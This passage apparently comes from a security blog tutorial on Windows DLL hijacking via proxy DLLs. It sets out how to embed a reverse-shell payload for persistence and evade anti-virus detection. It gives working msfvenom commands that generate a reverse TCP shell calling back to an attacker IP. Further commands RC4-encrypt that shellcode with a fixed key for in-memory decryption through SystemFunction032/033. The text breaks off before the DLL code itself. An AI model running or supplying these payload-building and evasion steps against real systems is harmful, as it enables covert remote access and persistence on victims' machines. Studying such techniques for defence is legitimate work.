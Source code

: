 \
We will now delve into executing shellcode in the proxy DLL instead of merely running the calculator. In this blog, we'll illustrate how to obtain a reverse shell to maintain persistence. However, this technique is not exclusive to attackers; Windows developers can also leverage it when adding plugins to applications.

Given that we'll be covering the use of Metasploit shellcode in this blog, an anti-virus (AV) bypass is necessary. A method that has gained popularity recently involves utilizing Windows API functions SystemFunction032/SystemFunction033 to perform RC4 decryption of shellcode in memory before executing it. It's worth noting that many AV providers are incorporating detection mechanisms for software employing this function to prevent potential malware threats ([https://support.eset.com/en/ca8496-eset-customer-advisory-modules-review-june-2023](https://support.eset.com/en/ca8496-eset-customer-advisory-modules-review-june-2023)).

While acknowledging that attackers may exploit it maliciously, the original intent of these functions was to offer on-the-fly decryption for developers. An article detailing how Windows incorporated cryptographic routines into various system library calls, eliminating the need for CryptoAPI, can be found here: [https://blog.gentilkiwi.com/tag/systemfunction032](https://blog.gentilkiwi.com/tag/systemfunction032). The function has gained popularity through the Mimikatz tool, but the article explains that internal Windows components also used those system library calls.\
\
The next step is to generate RC4-encrypted Metasploit code. I have provided the commands below.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Attacker IP> LPORT=1234 EXITFUNC=thread -a x64 --platform windows -f raw -o raw_tcp.bin

openssl enc -rc4 -in raw_tcp.bin -K `echo -n 'HelpMeWinlezPlz?' | xxd -p` -nosalt > encrypted.bin

xxd -i encrypted.bin | tee shellcode.txt | head -n 10
```

![](/assets/posts/2023-12-10-windows-dll-hijacking-via-proxying/proxy_dll_shellcode.bmp)


Now we can add the `encrypted_bin` array to our new proxy DLL. In our updated code, we need to create a thread to run our code. When a DLL is loaded into a process, the operating system calls the DLL's entry-point function `DllMain` with the `DLL_PROCESS_ATTACH` flag. This occurs in the context of the main thread of the process. If the operations performed in `DllMain` take a significant amount of time or have the potential to block or delay the initialization of the main thread, it can impact the responsiveness of the application.
